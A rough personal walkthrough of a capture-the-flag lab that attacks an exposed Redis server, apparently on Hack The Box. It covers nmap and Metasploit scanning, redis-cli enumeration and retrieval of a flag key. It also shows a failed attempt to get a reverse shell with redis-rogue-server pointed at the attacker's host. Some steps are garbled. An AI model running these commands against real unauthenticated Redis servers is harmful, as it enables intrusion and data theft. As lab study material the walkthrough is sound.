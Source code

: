 Nmap scanning: 
~~~
nmap -p- 10.129.192.120 -sV  
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-09 16:49 EDT
Stats: 0:06:38 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 68.31% done; ETC: 16:59 (0:03:04 remaining)
Stats: 0:09:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 86.79% done; ETC: 17:00 (0:01:29 remaining)
Nmap scan report for 10.129.192.120
Host is up (0.28s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 720.38 seconds
~~~


Redis:
Redis is **an open-source, in-memory data structure store that is widely used for caching, message brokering, and real-time analytics**. It supports various data structures, such as strings, lists, sets, hashes, and more. Redis uses a plain-text based protocol

~~~
>>use auxiliary/scanner/redis/redis_server
msf6 auxiliary(scanner/redis/redis_server) > show options

Module options (auxiliary/scanner/redis/redis_server):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   COMMAND   INFO             yes       The Redis command to run
   PASSWORD  foobared         no        Redis password for authentication test
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     6379             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/redis/redis_server) > set RHOSTS 10.129.192.120
RHOSTS => 10.129.192.120
msf6 auxiliary(scanner/redis/redis_server) > show options

Module options (auxiliary/scanner/redis/redis_server):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   COMMAND   INFO             yes       The Redis command to run
   PASSWORD  foobared         no        Redis password for authentication test
   RHOSTS    10.129.192.120   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     6379             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/redis/redis_server) > run
~~~


nc -vn 10.129.192.120 6379 
after this we know the information about the server
 and also use this 
 redis-cli -h 10.129.192.120
 info
cheat sheet for redis 
INFO
[ ... Redis response with info ... ]
client list
[ ... Redis response with connected clients ... ]
CONFIG GET *
[ ... Get config ... ]

after the info commond we find that database 0 has a 4 keys 

In that example the **database 0 and 1** are being used. **Database 0 contains 4 keys and database 1 contains 1**. By default Redis will use database 0.

# Keyspace
~~~
db0:keys=4,expires=0,avg_ttl=0
(0.78s)
10.129.10.123:6379> SELECT 0
OK
10.129.10.123:6379> Keys *
1) "numb"
2) "stor"
3) "flag"
4) "temp"
10.129.10.123:6379> get 
(error) ERR wrong number of arguments for 'get' command
(0.63s)
10.129.10.123:6379> get Keys
(nil)
(0.52s)
10.129.10.123:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
(0.55s)
10.129.10.123:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"
10.129.10.123:6379> 
~~~

KEYSPACES:
**the internal dictionary that Redis manages, in which all keys are stored**. Normally Redis keys are created without an associated time to live.


we try to get the shell to the db with tool redis-rogue-server can automatically get an interactive shell in redis and also get the reverse shell using this tool. but we have the error 
>>./redis-rogue-server.py --rhost 10.129.10.123 --lhost 10.10.14.168
>info] TARGET 10.129.10.123:6379
[info] SERVER 10.10.14.168:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
[err ] UnicodeDecodeError('gb18030', b'$614\r\na\x02\xca\x03\x02# Server\r\nredis_version:5.0.7\r\nredis_git_sha1:00000000\r\nredis_git_dirty:0\r\nredis_build_id:66bd629f924ac924\r\nredis_mode:standalone\r\nos:Linux 5.4.0-77-generic x86_64\r\narch_bits:64\r\nmultiplexing_api:epoll\r\natomicvar_api:atomic-builtin\r\ngcc_version:9.3.0\r\nprocess_id:754\r\nrun_id:2f2aee1fc7cc1ef95e26323bbd73ff26a77bb74d\r\ntcp_port:6379\r\nuptime_in_seconds:97\r\nuptime_in_days:0\r\nhz:10\r\nconfigured_hz:10\r\nlru_clock:8690626\r\nexecutable:/usr/bin/redis-server\r\nconfig_file:/etc/redis/redis.conf\r\n\r\n# Clients\r\nconnected_clients:1\r\nclient_recent_max_input_buffer:2\r\nclient_recent_max_output_buffer:0\r\nblocked_clients:0\r\n\r\n\r\n', 8, 9, 'illegal multibyte sequence')



i try the unauthenticate redis server but the http port is closed

>>>nmap -sC -sV  10.129.10.123 -p 80,6379 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 13:07 EDT
Nmap scan report for 10.129.10.123
Host is up (0.29s latency).

PORT     STATE  SERVICE VERSION
80/tcp   closed http
6379/tcp open   redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds



try to open the closed port using knock in nmap 

~~~
map knock -p 80 10.129.10.123        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 13:12 EDT
Failed to resolve "knock".
Nmap scan report for 10.129.10.123
Host is up (0.38s latency).

PORT   STATE  SERVICE
80/tcp closed http

Nmap done: 1 IP address (1 host up) scanned in 1.25 seconds
~~~


https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis


 

